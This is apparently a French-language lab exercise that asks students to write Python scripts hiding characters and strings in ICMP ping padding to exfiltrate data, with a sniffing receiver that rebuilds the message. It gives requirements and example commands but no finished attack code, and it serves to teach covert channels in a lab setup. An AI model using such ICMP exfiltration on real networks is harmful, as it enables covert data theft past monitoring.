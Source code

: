 **On va littéralement envoyer des pings, mais le padding on va l'utiliser pour stocker des données.** Autrement dit, on va utiliser des pings pour envoyer de la data à quelqu'un.

Dans notre contexte : pour exfiltrer des données, on peut juste envoyer des ping enfet !

🌞 **`icmp_exf_send.py`**

- envoie un caractère passé en argument dans un ping
  - un seul caractère pour le moment
- l'IP destination est aussi passée en argument
- on doit pouvoir faire par exemple :

```bash
# envoie le caractère "j" caché dans un ping vers 10.1.1.1
$ python icmp_exfiltration_send_1.py 10.1.1.1 j
```

On peut récup les arguments passés au script comme ça :

```python
# La liste argv contient tous les arguments dans l'ordre
from sys import argv

print(f"Ceci est le premier argument : {argv[0]}.")
print(f"Ceci est le deuxième argument : {argv[1]}.")
```

🌞 **`icmp_exf_receive.py`**

- sniff le réseau
- affiche **UNIQUEMENT** le caractère caché si un paquet ICMP d'exfiltration est reçu et quitte après réception de 1 paquet
- si un ping legit est reçu, ou n'importe quoi d'autre votre code doit continuer à tourner
- il attend (avec un filtre sur `sniff()` et des conditions dans la fonction qui traite le paquet) **uniquement** le ping qui contient les données exfiltrées, et les affiche

> Mettez vous dans un setup à deux PCs, ou avec une VM, truc du genre.

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**
